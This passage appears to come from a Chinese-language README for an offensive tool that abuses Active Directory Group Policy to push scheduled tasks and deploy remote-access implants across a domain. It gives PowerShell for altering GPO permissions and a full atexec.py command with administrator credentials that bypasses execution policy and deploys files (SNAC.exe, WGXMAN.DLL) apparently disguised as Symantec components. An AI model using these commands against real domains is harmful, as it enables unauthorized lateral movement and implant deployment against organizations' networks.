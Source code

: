 `Authenticated Users`对应`Прошедшие проверку`

## 5、KB3163622

打了这个补丁的服务器，在替换掉Authenticated Users组权限的时候需要确认

```powershell
Set-GPPermissions -Name $GPODisplayName -PermissionLevel None -TargetName "Прошедшие проверку" -TargetType Group -Replace| out-null
```





![1632198129856](https://github.com/wqreytuk/AD_GPO_EXEC/blob/main/005-GPP%20immediate%20task.assets/1632198129856.png)

且Set-Gppermissions存在bug无法使用confirm选项跳过确认框，且未实现-force选项

解决办法只有将Authenticated Users组的权限更改为GpoRead来变相实现取消其GpoApply权限的目的

## 6、DC之间的同步

可能会发生目标用户在更新组策略时，其拉取组策略的DC尚未从PDC同步新增的GPO，从而导致此次更新失败的情况

无解决方案，只能等



# x3 更新

## x3.1 2022-01-17更新

由于在使用deploy选项部署远控时，出现无法解决的错误，因此将脚本的`319`和`415`行的`copy-item`注释掉了

当需要使用deploy部署包含多个文件的远控时，你仍然需要给定文件列表，但是脚本不会帮你自动拷贝到GPO目录

你需要根据脚本输出的GPO路径，自行拷贝，注意文件名和文件列表中的保持一致



例子：

创建一个`1.txt`，内容如下：

```
SNAC.EXE$SymantecNetworkAccess.log$WGXMAN.DLL
```

你只需要提供正确的文件名列表即可，把`1.txt`传到DC的任意路径，然后创建GPO

```
atexec.py mother.fucker/Administrator:qwe123...@192.168.25.154 "powershell -executionpolicy bypass -command \"& { import-module C:\Users\Administrator\Downloads\cs.ps1; New-Fusck -DCFqdn WIN-JQ0277IA4MA.mother.fucker -CPFqdn WIN-JQ0277IA4MA.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -OUPath 'DC=mother,DC=fucker' -User mother.fucker\2012-1 -Deploy -DeployFileList C:\Windows\Tasks\1.txt -DeployArg SNAC.exe }\""
```
